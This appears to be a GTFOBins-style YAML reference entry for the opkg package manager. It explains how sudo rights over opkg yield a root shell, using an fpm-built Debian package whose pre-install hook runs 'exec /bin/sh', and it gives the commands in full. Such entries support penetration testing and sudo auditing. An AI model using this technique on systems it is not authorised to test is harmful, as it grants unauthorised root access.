 ```yaml
---
functions:
  sudo:
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /bin/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo opkg install x_1.0_all.deb
---
```

